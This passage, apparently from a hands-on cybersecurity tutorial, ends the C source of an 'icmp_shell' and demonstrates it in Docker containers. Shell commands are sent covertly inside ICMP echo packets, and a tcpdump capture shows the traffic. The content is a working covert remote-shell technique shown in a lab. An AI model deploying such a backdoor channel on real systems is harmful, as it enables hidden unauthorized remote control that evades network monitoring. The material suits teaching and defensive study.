 ```C
                async_read (raw_init (argv[i+1], IPPROTO_ICMP), 0);

        return 0;
}
```

Let's try it out:

```bash
# In the first terminal
docker network create testnet
docker run --privileged --net testnet -it basic_cybersecurity6:latest
root@d1c09e1b8f84:~# ./icmp_shell c 172.18.0.3
+ Raw to '172.18.0.3' (type : 0)

# In the second terminal
docker run --privileged --net testnet -it basic_cybersecurity6:latest
root@c134e2dbde63:~# ./icmp_shell s 172.18.0.2
+ Raw to '172.18.0.2' (type : 0)

# In the third terminal
docker exec -it d1c09e1b8f84 bash
root@d1c09e1b8f84:~# tcpdump -nnXSs 0 -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes


# In the first terminal
# uname -a
iRS v0.1
# ls
checksec.sh
client
client.c
crypt_shell
crypt_shell.c
icmp_shell
icmp_shell.c
rp++
server
server.c
#

# which produces the following output in the third terminal
08:49:28.471170 IP 172.18.0.2 > 172.18.0.3: ICMP echo reply, id 12345, seq 5, length 15
	0x0000:  4500 0023 e750 4000 4001 fb5f ac12 0002  E..#.P@.@.._....
	0x0010:  ac12 0003 0000 594b 3039 0005 0003 0000  ......YK09......
	0x0020:  6c73 0a                                  ls.
08:49:28.476440 IP 172.18.0.3 > 172.18.0.2: ICMP echo reply, id 12345, seq 5, length 111
	0x0000:  4500 0083 5462 4000 4001 8dee ac12 0003  E...Tb@.@.......
	0x0010:  ac12 0002 0000 1614 3039 0005 0063 0000  ........09...c..
	0x0020:  6368 6563 6b73 6563 2e73 680a 636c 6965  checksec.sh.clie
	0x0030:  6e74 0a63 6c69 656e 742e 630a 6372 7970  nt.client.c.cryp
	0x0040:  745f 7368 656c 6c0a 6372 7970 745f 7368  t_shell.crypt_sh
	0x0050:  656c 6c2e 630a 6963 6d70 5f73 6865 6c6c  ell.c.icmp_shell
	0x0060:  0a69 636d 705f 7368 656c 6c2e 630a 7270  .icmp_shell.c.rp
	0x0070:  2b2b 0a73 6572 7665 720a 7365 7276 6572  ++.server.server
	0x0080:  2e63 0a                                  .c.
08:49:28.477890 IP 172.18.0.3 > 172.18.0.2: ICMP echo reply, id 12345, seq 5, length 14
	0x0000:  4500 0022 5463 4000 4001 8e4e ac12 0003  E.."Tc@.@..N....
	0x0010:  ac12 0002 0000 ac9f 3039 0005 0002 0000  ........09......
	0x0020:  2320                                     #.

```

